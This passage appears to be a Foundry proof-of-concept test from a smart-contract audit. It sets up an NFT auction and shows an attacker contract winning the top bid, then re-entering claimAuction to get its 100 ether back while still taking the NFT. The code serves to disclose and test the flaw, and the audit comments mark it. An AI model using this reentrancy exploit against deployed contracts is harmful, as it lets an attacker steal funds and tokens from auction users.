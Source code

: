 ```js
            0, // collectionMintCost
            0, // collectionEndMintCost
            0, // rate
            1, // timePeriod
            1, // salesOption
            address(0)
        );

        hhMinter.setCollectionPhases(
            1, // collectionID
            block.timestamp, // _allowlistStartTime
            block.timestamp + 3 days, // _allowlistEndTime
            block.timestamp + 4 days, // _publicStartTime
            block.timestamp + 5 days, // _publicEndTime
            merkleRoot_msgSender
        );

        hhMinter.mintAndAuction(
            trustedAccount,
            '{"tdh": "100"}',
            99,
            1,
            block.timestamp + 2 days // auction end time
        );
        vm.prank(trustedAccount);
        IERC721(address(hhCore)).approve(address(hhAuctionDemo), 10000000000); // 10000000000 is the tokenId

        assertEq(address(contractKiller).balance, 100 ether);
        vm.warp(block.timestamp + 1 days);

        // simulate some bids by other bidders
        vm.prank(bidder1);
        hhAuctionDemo.participateToAuction{value: 10 ether}(10000000000);
        vm.prank(bidder2);
        hhAuctionDemo.participateToAuction{value: 90 ether}(10000000000);

        // highest bid by attacker
        vm.prank(address(contractKiller));
        hhAuctionDemo.participateToAuction{value: 100 ether}(10000000000);
        assertEq(address(contractKiller).balance, 0);
        assertEq(hhAuctionDemo.returnHighestBid(10000000000), 100 ether);
        assertEq(hhAuctionDemo.returnHighestBidder(10000000000), address(contractKiller));

        skip(1 days); // skip to auction end time
        vm.prank(address(contractKiller));
        hhAuctionDemo.claimAuction(10000000000); // @audit-issue : reentrancy will be exploited here
        assertEq(address(contractKiller).balance, 100 ether); // @audit-info : attacker received his bid amount back!
        assertEq(IERC721(address(hhCore)).ownerOf(10000000000), address(contractKiller)); // @audit-info : attacker owns the NFT for free!!
    }
}
```
